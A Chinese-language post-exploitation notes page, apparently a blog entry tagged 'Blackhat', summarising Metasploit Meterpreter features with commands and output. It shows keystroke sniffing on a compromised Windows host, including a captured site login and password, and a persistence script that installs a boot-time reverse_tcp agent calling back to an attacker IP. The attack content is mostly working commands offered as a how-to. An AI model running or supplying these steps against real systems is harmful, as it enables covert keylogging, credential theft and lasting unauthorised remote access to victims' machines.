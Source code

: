 ```yaml
---
title: Meterpreter功能汇总
name: meterpreter
date: 2016-6-5
tags: [meterpreter,持久化访问,键盘嗅探,进程转移,清理日志]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 键盘嗅探的两种方式

### 通过meterpreter自带keyscan工具

```shell
# 开启键盘监听
meterpreter > keyscan_start
Starting the keystroke sniffer...

# 查询监听到的键盘信息
meterpreter > keyscan_dump
Dumping captured keystrokes...
jd.com15312069323 <Tab> 123456

# 停止键盘监听
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 通过post/windows/capture/keylog_recorder

```shell
# 使用post/windows/capture/keylog_recorder
meterpreter > run post/windows/capture/keylog_recorder

[*] Executing module against EVAN
[*] Starting the keystroke sniffer...
# 监听记录的文件位置
[*] Keystrokes being saved in to /root/.msf5/loot/20160604202319_default_192.168.3.11_host.windows.key_380125.txt
[*] Recording keystrokes...
```

## 多种持久化访问方式

### 通过persistence脚本

```shell
# -X 开机自启动
# -i <num> payload重连的间隔时间
# -p 反向连接端口号
# -r 反向连接IP地址
#
# 更多使用方法请参考帮助 run persistence -h
meterpreter > run persistence -X -i 5 -p 4444 -r 192.168.3.12
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf5/logs/persistence/EVAN_20160604.3957/EVAN_20160604.3957.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.3.12 LPORT=4444
[*] Persistent agent script is 148461 bytes long
[+] Persistent Script written to C:\DOCUME~1\wangjun\LOCALS~1\Temp\VKZehDGmg.vbs
```